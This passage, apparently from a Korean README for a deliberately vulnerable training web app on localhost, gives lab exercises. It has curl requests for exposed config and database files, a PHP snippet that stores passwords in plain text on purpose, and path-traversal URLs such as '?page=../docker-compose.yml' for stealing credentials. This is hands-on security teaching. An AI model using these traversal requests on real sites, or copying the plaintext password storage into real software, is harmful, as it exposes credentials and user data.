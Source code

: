 #### 공격 방법

```bash
# 1. Database 인증정보 획득
curl http://localhost:8000/docker-compose.yml

# 2. DB 구조 분석
curl http://localhost:8000/init-db.sql

# 3. 설정 파일 유추
curl http://localhost:8000/api/config.php
```

---

### 7. **Password Storage Vulnerability**

#### 취약한 파일
- `api/submit_inquiry.php` (line 129)

#### 취약점 코드

```php
// WARNING: Plain text password storage for vulnerability testing
// In production, use password_hash()
$password = $data['password'];  // 🔴 평문 저장
```

#### 공격 시나리오

1. SQL Injection으로 DB 접근
2. 비밀번호 평문으로 획득
3. 비공개 문의 무단 열람

---

## 🎯 실습 시나리오

### 시나리오 1: 기본 정보 수집

```bash
# 1. 디렉토리 구조 파악
http://localhost:8000/

# 2. 설정 파일 탈취
http://localhost:8000/company.php?page=../docker-compose.yml

# 3. DB 정보 획득
http://localhost:8000/support.php?page=../init-db.sql

# 4. API 설정 확인
http://localhost:8000/product.php?page=../api/config.example.php
```
